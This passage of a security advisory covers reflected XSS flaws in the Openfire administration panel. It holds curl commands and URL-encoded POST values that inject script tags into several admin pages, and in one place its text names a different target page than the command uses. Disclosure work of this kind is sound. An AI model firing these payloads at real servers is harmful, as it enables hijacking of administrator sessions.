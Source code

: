 or with this curl command:

```
curl --data "serverName=localhost.localdomain%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverPort=5269&componentPort=5275&port=5222&sslEnabled=true&sslPort=5223&embeddedPort=9090&embeddedSecurePort=9091&jmxEnabled=false&jmxSecure=true&jmxPort=1099&save=Save+Properties" https://OpenFireServerIP:9090/server-props.jsp --cookie="JSESSIONID=XXX"
```

### Affected versions

* Version >= 3.10.2 and < 4.0.0


## Several Relected XSS Vulnerabilities identified in Openfire 4.0.0 and 4.0.1

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-79

**CVSS Base Score**: 5.2

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O

### Vulnerability Description

Several XSS vulnerabilities have been found on several pages of the administration panel. Reflected XSS could lead to session hijacking against an administrator.

Some of these vulnerabilities have already been found by hyp3rlinx, but had not been patched properly.

### Proof of Concept

#### *groupchatName*, *groupchatJID*, *users* and *groups* variables from *page create-bookmark.jsp* suffer from the vulnerability

The following POST values can be sent to trigger the vulnerability:

```
groupchatName=%22%3E%3Cscript%3Ealert%28%27XSS1%27%29%3C%2Fscript%3E&groupchatJID=%22%3E%3Cscript%3Ealert%28%27XSS2%27%29%3C%2Fscript%3E%C2%B2&users=%22%3E%3Cscript%3Ealert%28%27XSS3%27%29%3C%2Fscript%3E&groups=%22%3E%3Cscript%3Ealert%28%27XSS4%27%29%3C%2Fscript%3E&createGroupchatBookmark=Create&type=groupchat
```

The following curl command allows reproducing the attack against the Openfire *plugins/bookmarks/create-bookmark.jsp* page:

```
curl --data "save=true&mucname=conference&mucdesc=Public+Chatrooms%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E" https://OpenFireServerIP:9090/muc-service-edit-form.jsp --cookie="JSESSIONID=XXX"
```


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O